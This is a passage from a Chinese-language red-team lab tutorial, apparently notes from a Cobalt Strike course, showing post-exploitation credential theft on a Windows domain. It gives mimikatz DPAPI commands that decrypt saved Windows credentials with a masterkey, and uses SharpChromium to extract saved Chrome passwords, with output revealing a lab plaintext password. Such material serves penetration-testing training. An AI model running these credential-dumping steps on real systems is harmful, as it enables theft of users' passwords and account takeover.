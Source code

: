 [domainkey] with RPC
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
  key : 0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
  sha1: e3d7a52f1755a35078736eecb5ea6a23bb8619fc
```

上面的key就是解密需要的masterkey

解密凭据，得到明文密码：```Sup3rman```
```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df

Decrypting Credential:
 [...snip...]
  UserName       : DEV\bfarmer
  CredentialBlob : Sup3rman
```

在上面的例子中，bfarmer是SRV-1的本地管理员，所以他们只是保存了自己的域凭证。值得注意的是，即使他们有本地凭证，甚至保存了一套不同的域凭证，解密的过程也是完全一样的。


# Google Chrome

Chrome的用户凭据也是存放在```AppData```目录
```
beacon> ls C:\Users\bfarmer\AppData\Local\Google\Chrome\User Data\Default

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 40kb     fil     02/25/2021 13:21:18   Login Data
```

可以使用[SharpChromium](https://github.com/djhohnstein/SharpChromium)破解里面的密码

```
beacon> execute-assembly C:\Tools\SharpChromium\bin\Debug\SharpChromium.exe logins

[*] Beginning Google Chrome extraction.

--- Chromium Credential (User: bfarmer) ---
URL      : 
Username : bfarmer
Password : Sup3rman

[*] Finished Google Chrome extraction.
[*] Done.
```